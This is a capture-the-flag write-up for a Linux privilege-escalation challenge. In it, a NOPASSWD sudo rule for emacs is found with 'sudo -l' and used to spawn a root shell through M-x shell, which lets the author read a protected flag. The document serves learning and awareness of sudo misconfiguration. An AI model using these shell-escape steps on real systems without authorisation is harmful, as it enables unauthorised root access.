






# SUDO MAKE ME A SANDWICH

## 🔍 Challenge Overview
This challenge focused on **Linux Privilege Escalation** using `sudo` misconfigurations and `emacs`.
The goal was to gain root access and read the protected `flag.txt` file.


---

## Initial Access

I first connected to the target machine via SSH.

```
ssh -p 65323 ctf-player@green-hill.picoctf.net
```

---

## Enumeration

After logging in, I listed the files in the current directory.

```
ls
```
Output:
- flag.txt

## Attempting to Read the Flag

I initially tried reading the flag directly

```
cat flag.txt
```

Output:
- cat: flag.txt: Permission denied


Next, I attempted to use sudo.

```
sudo cat flag.txt
```

Output:
- Sorry, user ctf-player is not allowed to execute '/usr/bin/cat flag.txt' as root on challenge.




At this point, I wanted to discover which commands the current user was allowed to execute with sudo.

---

## Enumerating Sudo Privileges

I used:

```
sudo -l
```

Output:
-Matching Defaults entries for ctf-player on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

User ctf-player may run the following commands on challenge:
    (ALL) NOPASSWD: /bin/emacs




This revealed a critical privilege escalation vector:

- The user could execute /bin/emacs as root
- No password was required (NOPASSWD)


---


## Privilege Escalation via Emacs

I researched emacs and learned that it can spawn a shell.

I launched Emacs with sudo privileges:
```
sudo emacs
```



Inside Emacs:
1. Pressed ALT + x
2. Typed:
     ```
     shell
     ```
This spawned an interactive shell.




---


## Verifying Root Access

To verify the privilege escalation worked, I ran:
```
whoami
```
Output:
- root



The shell inherited the elevated privileges from sudo emacs, giving me a root shell.


---


## Capturing the Flag

Now that I had root access, I successfully read the flag.
```
cat flag.txt
```




---


## Key Takeaways

- Misconfigured sudo permissions can lead to full system compromise
- Some applications (like emacs, vim, less, etc.) can spawn shells
- Allowing these binaries with sudo is dangerous without restrictions


---


## Skills Learned

- **Linux Enumeration**
- **Sudo Privilege Escalation**
- **GTFOBins Research**
- **Emacs Shell Escaping**
- **Basic Post-Exploitation**


---


## References

- GTFOBins — https://gtfobins.github.io/gtfobins/emacs/
- GNU Emacs Documentation — https://www.gnu.org/software/emacs/


---


## Final Thoughts

This was a great beginner-friendly Linux privilege escalation challenge that demonstrated how dangerous insecure sudo configurations can be.

Using emacs to spawn a root shell was simple but effective, making this an excellent introduction to GTFOBins-based privilege escalation techniques.


